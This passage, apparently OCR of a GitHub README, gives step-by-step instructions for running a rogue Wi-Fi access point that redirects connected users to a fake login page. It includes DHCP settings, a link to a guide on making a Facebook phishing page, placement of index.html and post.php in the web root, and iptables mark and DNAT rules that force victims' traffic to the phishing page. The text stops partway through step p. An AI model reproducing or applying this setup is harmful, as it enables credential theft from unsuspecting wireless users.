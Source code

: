                    option subnet-mask 255.255.255.0;
                   range 10.0.0.5 10.0.0.200;
                   option broadcast-address 10.0.0.255;
                 }`
        g.	Start the dhcp server by running the following command:
                `service isc-dhcp-server start`
        h.	Create a  Fake Login page.
        i.	The below link gives an example of creating a fake login page:
          -	http://www.techtechnik.com/how-to-make-phishing-page-for-facebook/
        j.	Save the fake page as index.html and post.php file in the /var/www/html/ folder .
        k.	Start the apache web server :
                `service apache2 start`
        l.  Save the following configuration in a file:
          - update the Bold variables as per your setup.
          - Generated by iptables-save v1.4.21 on Fri Jun  3 20:56:55 2016
                `*filter
                 :INPUT ACCEPT [7545:899138]
                 :FORWARD ACCEPT [74:9830]
                 :OUTPUT ACCEPT [5851:5068639]
                 -A FORWARD -i wlan1 -j ACCEPT
                 COMMIT`
            # Completed on Fri Jun  3 20:56:55 2016
            # Generated by iptables-save v1.4.21 on Fri Jun  3 20:56:55 2016
                `*nat
                 :PREROUTING ACCEPT [147:15550]
                 :INPUT ACCEPT [404:28911]
                 :OUTPUT ACCEPT [34:2516]
                 :POSTROUTING ACCEPT [7:789]
                 -A PREROUTING -i wlan1 -p tcp -m mark --mark 0x1 -j DNAT --to-destination 10.0.0.1
                 -A POSTROUTING -o eth1 -j MASQUERADE  #Here eth1 is the interface through which internet is accessible.
                 COMMIT`
          # Completed on Fri Jun  3 20:56:55 2016
          # Generated by iptables-save v1.4.21 on Fri Jun  3 20:56:55 2016
                `*mangle
                 :PREROUTING ACCEPT [7267:881226]
                 :INPUT ACCEPT [7090:863142]
                 :FORWARD ACCEPT [152:15004]
                 :OUTPUT ACCEPT [5453:5020635]
                 :POSTROUTING ACCEPT [5648:5042330]
                 :captive - [0:0]
                 -A PREROUTING -i wlan1 -p udp -m udp --dport 53 -j RETURN
                 -A PREROUTING -i wlan1 -j captive
                 -A captive -j MARK --set-xmark 0x1/0xffffffff
                 COMMIT`
          # Completed on Fri Jun  3 20:56:55 2016
        m.	Set the firewall rules by running  the following command:
                 `iptables-restore <firewall rules file as created in step k.>`
        n.	Enable IP Forwarding with the following commandl
                  `echo 1 > /proc/sys/net/ipv4/ip_forward`
        o.	Now the AP is ready to be started. Run the following command:
                   `hostapd /etc/hostapd/hostapd.conf`
        p.	If the hostapd fails to start, stop the network-manager process with the following command and start the hostapd again.